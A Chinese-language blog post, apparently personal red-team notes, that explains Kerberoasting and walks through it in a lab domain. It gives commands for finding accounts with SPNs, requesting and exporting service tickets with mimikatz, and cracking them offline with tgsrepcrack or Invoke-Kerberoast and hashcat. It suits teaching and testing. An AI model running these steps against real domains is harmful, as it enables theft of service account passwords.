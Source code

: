 ```yaml
---
title: Kerberoasting
date: 2019-12-31 23:59:56 +0800
categories: [域安全, TA0006凭据访问]
tags: [Kerberoasting, TA0006凭据访问]     # TAG names should always be lowercase
typora-root-url: ..
---
```




## Kerberoasting

### **SPN(Service Principal Name)**

SPN，即Service Principal Name，客户端通过Kerberos请求使用某种服务时，会在请求中附带上需要访问的服务的SPN名称，如文件共享服务cifs/DNS_DOMAIN_NAME，目录访问服务ldap/DNS_DOMAIN_NAME。KDC（密钥分发中心）将通过SPN来确定客户端请求访问的是主机上的哪个具体服务，因为一个主机上通常情况下同时提供多种支持Kerberos认证的服务，随后，KDC将使用该服务账号的密码哈希来对票据进行加密。

![img](/assets/img/clipboard-1599141528915.png)

一般格式长这样:

```
service_class/hostname_or_FQDN
service_class/hostname_or_FQDN:port
service_class/hostname_or_FQDN:port/arbitrary_name
```

SPN不会重复，指定重名的SPN会报错。

![image-20201207205515318](/assets/img/image-20201207205515318.png)



### Kerberoasting原理

只要有合法的TGT，指定SPN就可以申请TGS Ticket；Ticket被service account Hash加密，如果能暴力破解解密成功，则能获得service account的明文密码。一般情况下，服务都是运行在computer account (MACHINENAME$)下，密码都是随机、复杂的，很难暴力破解；如果有一个服务(如MSSQLSvc)是在user account下运行，其密码是人指定的，暴力破解的难度就降低了。

可以查找带有SPN值的账户，也可以在取得了SPN的修改权限后、手动添加一个SPN；最后经过破解后获得明文口令。Kerberoasting攻击步骤如下：

1. **Scan Active Directory for user accounts with SPN values set.** 
2. **Request service tickets from AD using SPN values**
3. **Extract service tickets to memory and save to a file**
4. ***Brute force attack those passwords offline until cracked***



### Kerberoasting利用一

参考：[EXTRACTING SERVICE ACCOUNT PASSWORDS WITH KERBEROASTING](https://stealthbits.com/blog/extracting-service-account-passwords-with-kerberoasting/)



**Step 0: 为域管账户设置一个SPN，用于后续演示**

```
setspn.exe -U -S VNC2/ringdc-pc.ring2.com Administrator
```

**Step 1:  查找带有SPN的user account**

powershell

```
#Build LDAP Filter to look for users with SPN values registered for current domain
$ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
#Execute Search
$results = $search.FindAll()
#Display SPN values from the returned objects
foreach ($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-Host "User Name = " $userEntry.name
    foreach ($SPN in $userEntry.servicePrincipalName)
    {
        Write-Host "SPN = " $SPN       
    }
    Write-Host ""    
}
```



impacket/GetUserSPNs.py

```
GetUserSPNs.py -target-domain ring2.com ring2/win10:Test1234
```



[kerberoast](https://github.com/nidem/kerberoast)/GetUserSPNs.ps1

```
.\GetUserSPNs.ps1
```



可以查找AdminCount=1的user account，表示这是一个受保护账户，因此几乎总是具有高度特权；显然，破解这样的账户更有价值。

```
//Active Directory模块
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon,serviceprincipalname,memberof

//PowerSploit
Get-NetUser -spn -AdminCount | Select name,whencreated,pwdlastset,lastlogon,serviceprincipalname,memberof
```

![image-20201207203829072](/assets/img/image-20201207203829072.png)

**Step 2: TGS请求**

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'VNC2/ringdc-pc.ring2.com'
```



**Step 3: 导出TGS Ticket**

```
mimikatz # kerberos::list /export
```

![image-20201207201238744](/assets/img/image-20201207201238744.png)



**Step 4: 暴力破解TGS Ticket中的用户密码**

```
// https://github.com/nidem/kerberoast
python tgsrepcrack.py pass.txt "..\1-40a10000-win10@VNC~ringdc-pc.ring2.com-RING2.COM.kirbi"
```

![image-20201207201015488](/assets/img/image-20201207201015488.png)



**Step 5: 清除SPN**

```
setspn.exe -D VNC2/ringdc-pc.ring2.com Administrator
```



### Kerberoasting利用二

[Kerberoasting Without Mimikatz](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)

将前3步整合到一起，直接输出John Ripper或hashcat格式数据，用于第四步暴力破解

```
// PowerSploit/Invoke-Kerberoast
Invoke-Kerberoast  -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

```
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```

![image-20201207212655337](/assets/img/image-20201207212655337.png)


